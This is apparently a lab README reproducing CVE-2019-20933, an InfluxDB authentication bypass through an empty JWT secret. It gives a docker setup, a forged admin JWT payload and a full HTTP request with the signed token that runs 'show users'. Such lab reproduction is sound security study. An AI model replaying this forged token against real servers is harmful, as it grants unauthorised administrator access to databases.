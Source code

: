 # InfluxDB Empty JWT Secret Key Authentication Bypass (CVE-2019-20933)

[中文版本（Chinese Version）](README.zh-cn.md)

InfluxDB is an open-source time series database developed by the company InfluxData.

InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in `services/httpd/handler.go` because a JWT token may have an empty SharedSecret (aka shared secret).

References:

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://github.com/influxdata/influxdb/issues/12927
- https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## Vulnerable Environment

Execute following command to start a InfluxDB 1.6.6:

```
docker compose up -d
```

After server is started, you can see some debug information in `http://your-ip:8086/debug/vars`. But you are unable to execute SQL statement without authencation and a 401 error is responsed:

![](1.png)

## Vulnerability Reproduce

We can use <https://jwt.io/> to generate a valid JWT token with an empty secret key:

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 2986346267
}
```

Where `username` is the administrator account name, and `exp` is the token expiration time. You should set `exp` to a future time to make it effect:

![](2.png)

Then take this token to the request, and success to execute SQL statement `show users` in the server:

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)
